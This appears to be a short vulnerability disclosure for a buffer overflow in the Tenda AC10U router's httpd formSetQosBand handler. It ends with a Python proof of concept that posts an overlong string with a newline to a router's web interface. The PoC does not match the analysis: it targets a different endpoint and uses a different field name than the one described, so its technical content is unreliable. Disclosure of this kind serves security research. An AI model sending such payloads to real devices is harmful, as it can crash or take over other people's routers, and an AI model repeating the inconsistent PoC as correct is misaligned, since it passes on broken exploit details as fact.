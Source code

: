 # buffer overflow

## Tenda_AC10U_V1

version: V15.03.06.49

## Description:

There is a buffer overflow in httpd/formSetQosBand

## Source:

you may download it from : https://www.tendacn.com/download/detail-3795.html

## Analyse:


![](9.png)

get value from list ,send to setQosMiblist

![](10.png)

p eaqul list, if list contains '\n', get into if ,finally call strcpy, causee buff overflow



## POC
```
url = "http://192.168.1.13/goform/saveParentControlInfo"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'formSetQosBand': payload})
``` 
